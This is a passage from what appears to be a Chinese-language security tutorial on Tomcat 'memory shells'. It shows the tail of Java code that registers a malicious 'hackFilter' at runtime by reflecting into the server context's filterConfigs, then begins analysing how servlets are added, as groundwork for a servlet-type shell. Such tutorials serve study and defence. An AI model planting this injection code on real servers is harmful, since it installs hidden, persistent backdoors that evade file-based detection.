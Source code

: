 ```java
                }
                filterChain.doFilter(servletRequest, servletResponse);
            }
        };

        //FilterDef
        FilterDef filterDef = new FilterDef();
        filterDef.setFilterClass(hackFilter.getClass().getName());
        filterDef.setFilterName("hackFilter");
        filterDef.setFilter(hackFilter);

        //FilterMap
        FilterMap filterMap = new FilterMap();
        filterMap.setFilterName("hackFilter");
        filterMap.addURLPattern("/hackFilter");
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        //添加FilterDef和FilterMap
        context.addFilterDef(filterDef);
        context.addFilterMap(filterMap);


        //获取内部类后创建FilterConfig实例，然后put进context.filterConfigs中
        Class configclass = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
        Constructor configconstructor = configclass.getDeclaredConstructor(Context.class,FilterDef.class);
        configconstructor.setAccessible(true);
        FilterConfig filterConfig = (FilterConfig) configconstructor.newInstance(context,filterDef);
        Field configsfield = context.getClass().getDeclaredField("filterConfigs");
        configsfield.setAccessible(true);
        Map filterConfigs = (Map) configsfield.get(context);
        filterConfigs.put("hackFilter",filterConfig);
    }
}
```

filter型内存马的更加详细具体分析流程，笔者后续更新.  
也可自行下来分析调试

## [](#header-31)1.1.2 servlet型内存马

我们知道，Servlet的注册流程如下:  
首先调用 Tomcat.addServlet(Servlet)，观察 addServlet 函数源代码发现 addServlet 函数就是先 new ExistingStandardWrapper(Servlet). 然后再 StandardWrapper.setName(ServletName)，而后再顺便 StandardContext.addChild(StandardWrapper)，最后返回一个 StandardWrapper 对象.  

我们跟进 Tomcat.addServlet 看看到底干了啥

```java
//源码分析
public class Tomcat{
    public static Wrapper addServlet(Context ctx, String servletName, Servlet servlet) {
        Wrapper sw = new ExistingStandardWrapper(servlet);
        sw.setName(servletName);
        //跟进 addChild
        ctx.addChild(sw);
        return sw;
    }
}
```

